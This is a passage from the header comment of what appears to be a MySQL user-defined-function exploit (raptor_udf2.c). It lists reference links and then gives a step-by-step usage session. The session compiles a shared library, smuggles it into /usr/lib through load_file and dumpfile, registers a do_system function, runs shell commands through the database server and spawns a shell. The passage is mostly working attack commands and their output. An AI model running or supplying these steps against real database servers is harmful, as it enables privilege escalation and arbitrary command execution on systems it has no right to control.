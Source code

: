 ```

* http://dev.mysql.com/doc/refman/5.0/en/udf-security.html

* http://www.wisec.it/vulns.php?page=4

* http://www.wisec.it/vulns.php?page=5

* http://www.wisec.it/vulns.php?page=6

*

* "UDFs should have at least one symbol defined in addition to the xxx symbol

* that corresponds to the main xxx() function. These auxiliary symbols

* correspond to the xxx_init(), xxx_deinit(), xxx_reset(), xxx_clear(), and

* xxx_add() functions". -- User Defined Functions Security Precautions

*

* Usage:

* $ id

* uid=500(raptor) gid=500(raptor) groups=500(raptor)

* $ gcc -g -c raptor_udf2.c

* $ gcc -g -shared -W1,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc

* $ mysql -u root -p

* Enter password:

* [...]

* mysql> use mysql;

* mysql> create table foo(line blob);

* mysql> insert into foo values(load_file('/home/raptor/raptor_udf2.so'));

* mysql> select * from foo into dumpfile '/usr/lib/raptor_udf2.so';

* mysql> create function do_system returns integer soname 'raptor_udf2.so';

* mysql> select * from mysql.func;

* +-----------+-----+----------------+----------+

* | name | ret | dl | type |

* +-----------+-----+----------------+----------+

* | do_system | 2 | raptor_udf2.so | function |

* +-----------+-----+----------------+----------+

* mysql> select do_system('id > /tmp/out; chown raptor.raptor /tmp/out');

* mysql> \! sh

```